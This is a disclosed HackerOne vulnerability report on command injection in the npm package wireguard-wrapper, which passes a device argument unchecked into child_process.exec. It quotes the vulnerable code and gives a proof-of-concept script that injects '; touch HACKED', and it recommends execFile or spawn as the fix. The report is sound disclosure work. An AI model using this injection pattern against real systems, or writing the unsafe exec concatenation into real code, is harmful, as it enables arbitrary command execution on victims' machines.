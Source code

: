 # [wireguard-wrapper] Command Injection via insecure command concatenation

## Report Details
- **Report ID**: 858674
- **URL**: https://hackerone.com/reports/858674
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-04-24T14:07:08.104Z
- **Disclosed**: 2021-04-16T21:23:42.350Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Command Injection` issue in the `wireguard-wrapper` module.
It allows to execute arbitrary commands on the victim's PC.

# Module

**module name:** `wireguard-wrapper`
**version:** `1.0.2`
**npm page:** `https://www.npmjs.com/package/wireguard-wrapper`

## Module Description

This project is a nodejs wrapper for the wireguard commands wg and wg-quick.

Features:
- No dependencies
- Uses promises

Limitations:
- So far it can only read but not write anything
- missing wg set, wg setconf, wg addconf, wg syncconf

## Module Stats

[0] weekly downloads

# Vulnerability

## Vulnerability Description

The issue occurs because a user input parameter is used inside a command that is executed without any check. 

I tested the `wg showconf` functionality. 
Here's the code which causes the issue:

```javascript
// https://github.com/rostwolke/node-wireguard-wrapper/blob/master/src/command/Wg.js#L58
'use strict';
const {exec} = require('child_process');
...
	static showconf(device){
		return new Promise(function(resolve, reject){
			if(!device){
				return reject('No device/interface specified');
			}

			exec(`wg showconf ${device}`, function(error, stdout, stderr){
				if(error){
					return reject(`Exec error: ${error}`);
				}
				if(stderr){
					return reject(`StdErr: ${stderr}`);
				}
    ....
```
As we can see the `device` parameter is passed as input to the `exec` function.

The function `exec` is the build-in function `child_process.exec()` taking in input the `device` variable build with the unsecure user's input.

## Steps To Reproduce:
- create a directory for testing
    - `mkdir poc`
    - `cd poc/`

- install [`wireguard` tool](https://www.wireguard.com/install/) (even though it is not needed to show the vulnerability)
- install `wireguard-wrapper` module:
    -  `npm i --save wireguard-wrapper`
- create the following PoC JavaScript file (`poc.js`):

```javascript
const { Wg } = require('wireguard-wrapper');

Wg.showconf('; touch HACKED').then(function(config){
    console.log('wg0 configuration:', config);
    console.log('generated configuration file:', config.toString());
});
```
- make sure that the `HACKED` file does not exist:
    - `ls`
- execute the `poc.js` file:
    - `node poc.js`
- the `HACKED` file is created:
    - `ls`

{F802322}


## Patch
Do not concatenate commands using insecure user's input. Always check and sanitize it. 
In my opinion, it's better to use [`child_process.execFile`](https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback) or [`child_process.spawn`](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options) functions instead of `child_process.exec`.

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v13.13.0
- NPM VERSION: 6.14.4

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

Command Injection on `wireguard-wrapper` module via insecure command concatenation.

## Attachments
- poc_wireguard.mov
